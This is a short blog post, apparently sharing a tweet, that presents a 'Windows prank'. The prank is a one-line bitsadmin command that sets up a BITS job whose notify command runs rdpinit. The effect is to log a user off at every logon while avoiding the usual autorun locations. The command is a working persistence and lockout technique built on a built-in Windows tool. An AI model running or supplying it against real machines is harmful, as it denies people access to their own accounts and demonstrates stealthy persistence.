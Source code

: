+++
title = "A Cool Windows Prank :)"
[extra]
direct_link = "https://twitter.com/fkadibs/status/1434291573655752706"
+++

[@fkadibs](https://twitter.com/fkadibs):

> log off a user whenever they log on, without an autorun:
>
> `bitsadmin /create 1 & bitsadmin /addfile 1 google.com/0.html %temp%\0.html & bitsadmin /setnotifycmdline 1 rdpinit NULL & bitsadmin /resume 1`

This was in reply to a [@SwiftOnSecurity](https://twitter.com/swiftonsecurity) tweet (you should follow them btw) saying:

> Running "rdpinit" in Windows run command will immediately forcibly logoff the user.

what a cool prank :)
